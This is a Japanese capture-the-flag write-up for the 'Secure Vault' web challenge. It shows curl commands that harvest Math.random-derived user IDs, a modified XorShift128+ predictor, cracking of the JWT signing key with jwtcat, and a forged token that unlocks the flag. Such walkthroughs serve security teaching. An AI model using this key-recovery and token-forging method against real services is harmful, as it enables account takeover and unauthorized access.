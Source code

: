 # Secure Vault:Web:130pts
Clam saw all those cool celebrities posting everything they do on twitter, so he decided to give it a go himself. Turns out, that's a horrible idea. After recovering from his emotional trauma, he wrote a [secure vault](https://secure-vault.web.actf.co/) to store his deepest secrets. Legend has it that there's even a flag in there. Can you get it?  

[Source](index.js)  

# Solution
サイトとソースが渡される。  
アクセスするとアカウント作成後、文字列を保存できるサイトのようだ。  
Secure Vault  
[site1.png](site/site1.png)  
試しにアカウントを作ってログインすると`put something here!`とある。  
これがデフォルトのようだ。  
[site2.png](site/site2.png)  
cookieにJWT`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjM4MjUyNTA5MjY1MjQ3MzkiLCJpYXQiOjE2NTE0MDA1NDZ9.79aj7t462YjnsW1eQ35KsX4VS2d_bgCTDiu7Y4gH6uA`がセットされていた。  
[JSON Web Tokens - jwt.io](https://jwt.io/)で中身を見ると以下であった。  
```json
{
  "uid": "0.3825250926524739",
  "iat": 1651400546
}
```
uidが見える。  
次にソースを見ると主要部分は以下のようであった。  
```JavaScript
~~~
const userInfo = {};
const jwtKey = Math.random().toString();

class UserStore {
    constructor() {
        this.users = {};
        this.usernames = {};
    }

    insert(username, password) {
        const uid = Math.random().toString();
        this.users[uid] = {
            username,
            uid,
            password,
            vault: "put something here!",
            restricted: true,
        };
        this.usernames[username] = uid;
        return uid;
    }
~~~
}

~~~
const users = new UserStore();

app.use((req, res, next) => {
    try {
        res.locals.user = jwt.verify(req.cookies.token, jwtKey, {
            algorithms: ["HS256"],
        });
    } catch (err) {
        if (req.cookies.token) {
            res.clearCookie("token");
        }
    }
    next();
});

~~~
app.post("/register", (req, res) => {
    if (
        !req.body.username ||
        !req.body.password ||
        req.body.username.length > 32 ||
        req.body.password.length > 32
    ) {
~~~
    }
    const uid = users.insert(req.body.username, req.body.password);
    res.cookie("token", jwt.sign({ uid }, jwtKey, { algorithm: "HS256" }));
    res.redirect("/");
});

~~~
app.get("/vault", (req, res) => {
    if (!res.locals.user) {
        res.status(401).send("Log in first");
        return;
    }
    const user = users.get(res.locals.user.uid);
    res.type("text/plain").send(user.restricted ? user.vault : flag);
});
~~~
```
JWTでログインを維持しており、`user.restricted`でなければフラグが得られるようだ。  
しかし`HS256`であり、`Math.random().toString()`がkeyのようで、noneや総当たりでの攻撃は難しい。  
ここで、uidも`Math.random().toString()`であり、JWTに含まれていることを思い出す。  
つまりユーザ登録を行うと`Math.random()`の結果を知ることができる。  
`Math.random()`は安全でないことが知られており、[TACIXAT/XorShift128Plus](https://github.com/TACIXAT/XorShift128Plus)などで過去や未来の乱数を計算できる。  
uidより乱数を取得し、過去の乱数を生成することでJWTのkeyを辞書攻撃することを狙う。  
以下のget_uid.shよりuidを取得する。  
```sh
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki1ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki2ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki3ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki4ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki5ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki6ooooo&password=ooooo" 2>&1 | grep set-cookie
```
実行する。  
```bash
$ ./get_uid.sh
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjM4NTIyNzQxMTIwMjk0MTQ2IiwiaWF0IjoxNjUxNDAwNzE1fQ.v87ygmvry8degrkSj5KNxbK7NWDfbbSzL_N4QUw_fFs; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjYxMzkyNDY1MzU0MzcyMDgiLCJpYXQiOjE2NTE0MDA3MTZ9.wYmaATGDKeG8YSWGMwzQYSu8lVNri-deA73VO46WCgw; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjI2ODA3NTE5NTY0NDEyNTg1IiwiaWF0IjoxNjUxNDAwNzE2fQ.ZrltMhyE-VO12XlQiD8X5i6DRGeyeet7t-yXRmNRCoA; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjIxMTM5NzA0NDE2NTYxNDc4IiwiaWF0IjoxNjUxNDAwNzE3fQ.3TgUijXkqscJxRS-P9VYG36OFgYkOuKumXZNXe5czI8; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjkyMzc0ODQ0NzkxNzA5NyIsImlhdCI6MTY1MTQwMDcxN30.IH0v70ujYvOxQBw0-jwdi_3HIXLmnk0nhQdOvFT3BmU; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjI0OTM1MDQxNjMzMTg5NDAzIiwiaWF0IjoxNjUxNDAwNzE4fQ.2zcz1jFttIwqaoCKIjr2UeX0uHhggxCD8wE2Z4B11lY; Path=/
```
それぞれの中身を見るとuidは以下であった。  
```
0.38522741120294146
0.6139246535437208
0.26807519564412585
0.21139704416561478
0.923748447917097
0.24935041633189403
```
これらを設定し、50000個の乱数生成するよう編集したxs128p_uid.pyを実行し、辞書を作成する。  
スクリプトの実装を読んでおらず、適切な編集でないため、一定数以上の未来の乱数生成後に過去の乱数が周期的に表示されていることに注意する。  
この場合、はるか過去の乱数が欲しいため都合がよい。  
```bash
$ diff xs128p.py xs128p_uid.py
149,150c149,150
<         0.5368584449767335, 0.883588766746984, 0.7895949638905317,
<         0.5106241305628436, 0.49965622623126693]
---
>         0.38522741120294146, 0.6139246535437208, 0.26807519564412585,
>         0.21139704416561478, 0.923748447917097, 0.24935041633189403]
192c192
<         for idx in range(15):
---
>         for idx in range(50000):
$ python xs128p_uid.py > dict.txt
```
辞書ができたので、新たにアカウントを作成し、そのjwtを[jwtcat](https://github.com/aress31/jwtcat)でクラックする。  
以下のように行う。  
```bash
$ curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satokihack&password=ooooo" 2>&1 | grep set-cookie
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjg2MTYwNzUzMjgyNDM5NTEiLCJpYXQiOjE2NTE0MDEzNzd9.w-xTyxA1SZfSrJqhZO7IxN8n34kNFdGbOR71eaKzwgk; Path=/
$ git clone https://github.com/aress31/jwtcat.git
~~~
$ python jwtcat/jwtcat.py wordlist -w dict.txt "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjg2MTYwNzUzMjgyNDM5NTEiLCJpYXQiOjE2NTE0MDEzNzd9.w-xTyxA1SZfSrJqhZO7IxN8n34kNFdGbOR71eaKzwgk"
2022-05-01 19:37:41,230 Satoki __main__[1298] WARNING For attacking complex JWT, it is best to use compiled, GPU accelerated password crackers such as Hashcat and John the Ripper which offer more advanced techniques such as raw brute forcing, rules-based, and mask attacks.
2022-05-01 19:37:41,230 Satoki __main__[1298] INFO Pour yourself a cup (or two) of ☕ as this operation might take a while depending on the size of your wordlist.
 34%|████████████████████████▌                                                | 50385/149983 [00:02<00:04, 22480.12it/s]
2022-05-01 19:37:43,598 Satoki __main__[1298] INFO Private key found: 0.5258726853042994
2022-05-01 19:37:43,598 Satoki __main__[1298] INFO Finished in 2.3682637214660645 sec
```
JWTのkeyが判明したため、[JSON Web Tokens - jwt.io](https://jwt.io/)で書き換えてやる。  
uidについてはユーザが存在しなければ`user.restricted`がfalseとなるので、適当にkeyと同じにしておく。  
![jwtio.png](images/jwtio.png)  
`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjUyNTg3MjY4NTMwNDI5OTQiLCJpYXQiOjE2NTE0MDEzNzd9.AxE6xLl3WD9qbMaUvXKN6e7hDCvvlRC3Pq2wciGw910`が得られたので、設定してアクセスする。  
flag  
[flag.png](site/flag.png)  
flagが得られた。  

## actf{is_this_what_uaf_is}